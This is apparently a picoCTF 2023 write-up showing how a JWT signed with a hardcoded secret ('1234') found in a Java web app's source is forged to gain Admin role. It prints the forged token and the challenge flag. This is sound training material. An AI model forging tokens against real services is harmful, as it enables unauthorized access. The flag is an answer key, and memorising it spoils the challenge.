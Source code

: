 # Java Code Analysis!?!
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
- [Reference](#reference)
## Challenge information
```text
Tags: Web Explotation, picoCTF 2023

Description:  
BookShelf Pico, my premium online book-reading service.
I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!

Hints:
1. Maybe try to find the JWT Signing Key ("secret key") in the source code? Maybe it's hardcoded somewhere? Or maybe try to crack it?
2. The 'role' and 'userId' fields in the JWT can be of interest to you!
3. The 'controllers', 'services' and 'security' java packages in the given source code might need your attention. We've provided a README.md file that contains some documentation.
4.  Upgrade your 'role' with the new (cracked) JWT. And re-login for the new role to get reflected in browser's localStorage.
```
## Overview
![alt text](/picoCTF/Static/Images/Java_Code_Analys/image1.png)  
* I tried logging in with any email and password, it returned `login failed`  
* I created an account with:  
    * Username : hacker
    * Mail: hacker@gmail.com
    * Password: Hacker@1  

* I created an account successfully and it logged me in  

![alt text](/picoCTF/Static/Images/Java_Code_Analys/image2.png)

* This is my profile
![alt text](/picoCTF/Static/Images/Java_Code_Analys/image3.png)  

* I can upload my avatar or change my password, it sounds like a file upload vulnerability, but we don't exploit it here.
![alt text](/picoCTF/Static/Images/Java_Code_Analys/image4.png)  

* I see that there is a book outside the home that is a flag. After accessing it, it requires me to have admin rights to view it. This will be the main exploitation point of this article (login with admin).
![alt text](/picoCTF/Static/Images/Java_Code_Analys/image5.png)  

* Read the source provided for better understanding
## Solution
**Step1:** Recon  
* I used burpsuite to catch requests when I logged in  
![alt text](/picoCTF/Static/Images/Java_Code_Analys/image6.png)  
![alt text](/picoCTF/Static/Images/Java_Code_Analys/image7.png)  
* As you can see, this is a JWT vulnerability, we can exploit it to log in with admin rights  
* This is the jwt code initialized by the web

```
Headers = {
  "typ": "JWT",
  "alg": "HS256"
}

Payload = {
  "role": "Free",
  "iss": "bookshelf",
  "exp": 1762172905,
  "iat": 1761568105,
  "userId": 6,
  "email": "hacker@gmail.com"
}

Signature = "KgSMr-IgBCERM85wFwvSaAbXoXHuRBZqwShjk1OO5b4"
```
* As you can see, the jwt code uses HS256 (a symmetric key) to sign  

```SQL
INSERT INTO roles VALUES ('Free', 1);
INSERT INTO roles VALUES ('Basic', 2);
INSERT INTO roles VALUES ('Premium', 3);
INSERT INTO roles VALUES ('Admin', 4);
```
* There are 4 roles initialized as above  
* Our job is to think of a way to find the public key, then change the role to admin and re-sign the jwt  

* This is the code of the JWTService section  
```java
package io.github.nandandesai.pico.security;

import com.auth0.jwt.JWT;
import com.auth0.jwt.JWTVerifier;
import com.auth0.jwt.algorithms.Algorithm;
import com.auth0.jwt.exceptions.JWTVerificationException;
import com.auth0.jwt.interfaces.DecodedJWT;
import io.github.nandandesai.pico.security.models.JwtUserInfo;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Service;

import java.util.Calendar;
import java.util.Date;

@Service
public class JwtService {

    private final String SECRET_KEY;

    private static final String CLAIM_KEY_USER_ID = "userId";
    private static final String CLAIM_KEY_EMAIL = "email";
    private static final String CLAIM_KEY_ROLE = "role";
    private static final String ISSUER = "bookshelf";

    @Autowired
    public JwtService(SecretGenerator secretGenerator){
        this.SECRET_KEY = secretGenerator.getServerSecret();
    }

    public String createToken(Integer userId, String email, String role){
        Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);

        Calendar expiration = Calendar.getInstance();
        expiration.add(Calendar.DATE, 7); //expires after 7 days

        return JWT.create()
                .withIssuer(ISSUER)
                .withIssuedAt(new Date())
                .withExpiresAt(expiration.getTime())
                .withClaim(CLAIM_KEY_USER_ID, userId)
                .withClaim(CLAIM_KEY_EMAIL, email)
                .withClaim(CLAIM_KEY_ROLE, role)
                .sign(algorithm);
    }

    public JwtUserInfo decodeToken(String token) throws JWTVerificationException {
        Algorithm algorithm = Algorithm.HMAC256(SECRET_KEY);
        JWTVerifier verifier = JWT.require(algorithm)
                .withIssuer(ISSUER)
                .build();
        DecodedJWT jwt = verifier.verify(token);
        Integer userId = jwt.getClaim(CLAIM_KEY_USER_ID).asInt();
        String email = jwt.getClaim(CLAIM_KEY_EMAIL).asString();
        String role = jwt.getClaim(CLAIM_KEY_ROLE).asString();
        return new JwtUserInfo().setEmail(email)
                .setRole(role)
                .setUserId(userId);
    }
}
```
* It can be seen that `expires after 7 days` 
=> There is no need to worry about the expiration time jwt  
```java
 public JwtService(SecretGenerator secretGenerator){
        this.SECRET_KEY = secretGenerator.getServerSecret();
    }
``` 
*   The secret key is obtained from `secretGenerator` , now let's take a look  
```java
package io.github.nandandesai.pico.security;

import io.github.nandandesai.pico.configs.UserDataPaths;
import io.github.nandandesai.pico.utils.FileOperation;
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.stereotype.Service;

import java.io.IOException;
import java.nio.charset.Charset;

@Service
class SecretGenerator {
    private Logger logger = LoggerFactory.getLogger(SecretGenerator.class);
    private static final String SERVER_SECRET_FILENAME = "server_secret.txt";

    @Autowired
    private UserDataPaths userDataPaths;

    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }

    String getServerSecret() {
        try {
            String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
            logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
            return secret;
        }catch (IOException e){
            logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
            String newSecret = generateRandomString(32);
            try {
                FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
            } catch (IOException ex) {
                ex.printStackTrace();
            }
            logger.info("Newly generated secret is now written to the filesystem for persistence.");
            return newSecret;
        }
    }
}
```
* From the code above, we can simply understand `secretkey=1234`  

**Step2:** Exploit  
* Create a jwt code with role admin, userID equal to 2 (I tried 1 but it didn't work) and re-sign the code with secretkey =1234  
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3NjIxNzU2MTIsImlhdCI6MTc2MTU3MDgxMiwidXNlcklkIjoyLCJlbWFpbCI6ImhhY2tlckBnbWFpbC5jb20ifQ.ogABvx_CsEmSjXNp87OEQ5jY7qUMIkNmV3gu7SZTRWw`
* Select inspect then go to local storage and change the parameters to make them valid  
![alt text](/CTF/picoCTF/Static/Images/Java_Code_Analys/image8.png)  
## Flag
`picoCTF{w34k_jwt_n0t_g00d_6e5d7df5}`
## Reference
[JWT](https://portswigger.net/web-security/jwt)
